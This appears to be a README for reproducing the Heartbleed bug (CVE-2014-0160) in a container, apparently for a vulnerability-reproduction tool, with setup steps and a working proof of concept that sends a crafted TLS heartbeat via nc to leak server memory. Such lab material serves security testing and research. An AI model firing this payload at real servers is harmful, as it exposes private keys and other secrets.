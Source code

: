 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python -m decret --port 4433 --number 2014-0160 --directory heartbleed 
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -tls1 -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc 127.0.0.1 4433 | hexdump -C
```

Since we redirected the 4433 port, we can easily connect to the
vulnerable server.  It is also possible to enter the network namespace
from the host if you do not want to redirect a port.  From the host,
you can do this as `root` and have access to the network stack from
the container while using the filesystem from the host:
```
# ps auxw | grep openssl
root     123456  [...] openssl s_server -tls1 -cert cert.pem -key key.pem
# nsenter -n /proc/123456/ns/net # OR nsenter --net -t 123456
```

We observe that a lot of data thus it is vulnerable.

If `openssl` is then updated in the container :
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.
